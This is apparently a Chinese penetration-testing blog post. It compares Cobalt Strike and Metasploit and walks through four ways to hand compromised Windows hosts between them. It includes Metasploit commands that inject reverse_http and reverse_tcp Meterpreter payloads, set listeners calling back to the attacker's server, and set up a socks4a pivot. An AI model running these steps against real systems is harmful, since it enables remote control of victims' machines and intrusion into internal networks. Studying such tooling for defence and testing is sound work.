 ```yaml
---
title: cs和msf的区别
date: 2017-09-12 14:27:24
tags:
	- 渗透
categories: 渗透
---
```


Cobalt Strike与metasploit以前曾是GUI版本与命令行版本的关系，现在脱离自己重写后，个人觉得Cobalt Strike更偏重于稳定控制，而MetaSploit偏向于横向渗透。MetaSploit在渗透个人机方面作用比较小，而Cobalt Strike相对作用会更大一些。所以Cobalt Strike与metasploit现在是一种***互补***的关系。

<!-- more -->

### 首先介绍一下Cobalt Strike
**Cobalt Strike是一款以metasploit为基础的GUI的框架式渗透工具，集成了端口转发、服务扫描，自动化溢出，多模式端口监听，win exe木马生成，win dll木马生成，java木马生成，office宏病毒生成，木马捆绑；钓鱼攻击包括：站点克隆，目标信息获取，java执行，浏览器自动攻击等等。**

这是以前的了，Cobalt Strike以前是一个MSF的GUI版本，现在翅膀硬了，2.5版本以后就已经脱离的msf的框架自己重写了，当然两兄弟间还互相提供接口支持（主要还是cobalt strike支持metasploit）。

### 在这里先给出我自己对最新Cobalt Strike与MetaSploit的看法。

Cobalt Strike与metasploit以前曾是GUI版本与命令行版本的关系，现在脱离自己重写后，个人觉得Cobalt Strike更偏重于稳定控制，而MetaSploit偏向于横向渗透。MetaSploit在渗透个人机方面作用比较小，而Cobalt Strike相对作用会更大一些。所以Cobalt Strike与metasploit现在是一种***互补***的关系。

---
#### 下文CS代表Cobalt Strike，MSF代表metasploit
列举一下cs与msf之间对比的优缺点吧，在CS的视角中来谈：

1. CS的socks4a服务比msf稳定太多了，被控机器从CS上线后，可以使用CS中的socks4a协议进行代理渗透，实战端口扫描开200线程不会挂，而msf中的route add或者是socks4a都做不到（这里数据感谢碧波大神），具体操作由于本人懒，这里先不写了。
2. CS没有横向EXP攻击：说白了CS只是个功能强大的远控马，它自从脱离了msf自己重写框架后，就放弃了exploit，专心做远控。所以使用cs前，你必须得获得目标机器的权限，再从上面运行cs的马。

本文便是基于2号缺点来展开，现在拿cs日站，前提就是你获取了目标的权限，然后运行cs的马上线，然后通过cs进行代理（或者其它扫描等），进行内网渗透，找出漏洞后继续利用其它工具进行exploit，exploit后再运行cs的马，这其中过程中，其实cs并没有很好地配合起来，并且好像也没有msf什么事情。如果我们要使用msf配合cs一起进行渗透的话，国内无文章对此进行介绍。经过我这两天的实验，发现msf对cs的支持还是很好的。

---
在使用msf和cs配合的渗透中，可能会有如下场景：
- msf获得了一个meterpreter的session，想把session传给cs
- msf未获得meterpreter的session，想直接让目标给cs上线
- cs获得了一个上线机器，想把这个机器丢给msf中的meterpreter获得一个session进行控制
- cs获得了一个上线机器，想把这个机器丢给msf中继续进行渗透

下面便来聊聊这4点是如何实际操作的。

本文网络环境如下：受害机器IP：192.168.31.14    MSF和cs在同一个IP下：192.168.31.29

---
#### 1. msf获得了一个meterpreter的session，想把session传给cs：

思路是使用msf中的inject payload来做

现在先假设已有一个meterpreter的session了，步骤如下：

在cs中新建监听

点击save创建成功后我们便有了一个reverse_http监听者，监听者33890端口，等待被控机连接。

此时切换到meterpreter中，输入下列命令：


```
background # 切换到后台

use exploit/windows/local/payload_inject

set payload windows/meterpreter/reverse_http # 这里有个坑，不能使用x64的payload，我开始试验了很久一直失败，发现是x64的原因，换成x86的payload就好了

set lhost 192.168.31.29 # cs的服务端IP

set lport 33890 # 监听者的监听端口

set session 1 # 这里是之前meterpreter的session编号

set disablepayloadhandler true # 关闭payload的监听，因为msf和cs在同一台机器，而且这里用cs监听而不是msf

exploit
```

此时机器便已成功从cs成功上线。

---
#### 2. msf未获得meterpreter的session，想直接让目标给cs上线
cs先开启监听者（见上文），此时msf的payload按照如下写法即可

```
set payload windows/meterpreter/reverse_http

set lhost 192.168.31.29 # cs的服务端IP

set lport 33890
```
就可以了，简单吧。这里其实就是payload选择reverse_http（注意32位的，不是64位的，这里大坑），然后监听的地址和端口写cs的监听者的信息就可以了，生成payload后怎么让目标执行就不在本文讨论范围了

---
#### 3. cs获得了一个上线机器，想把这个机器丢给msf中的meterpreter获得一个session进行控制
步骤如下

msf中：

```
use exploit/multi/handler 

set payload windows/meterpreter/reverse_tcp # 再次强调大坑：不要用x64的payload！

set lhost 192.168.31.29 

set lport 9999

exploit # 开启监听
```


cs中，对目标机器点击右键，spawn，新建一个监听者，payload选择foreign/reverse_tcp

最后choose它就可以了，如果meterpreter没有马上获得shell，不要着急，因为cs中默认sleep是1分钟，你可以先提前把sleep改短些，这样cs的反应会快些。

---

#### 4. cs获得了一个上线机器，想把这个机器丢给msf中继续进行渗透

这里其实只需要cs开一个socks给msf用就行了，具体操作如下：

对上线机器点右键，开启socks4a，然后会给你一个地址，在msf中设置proxy即可


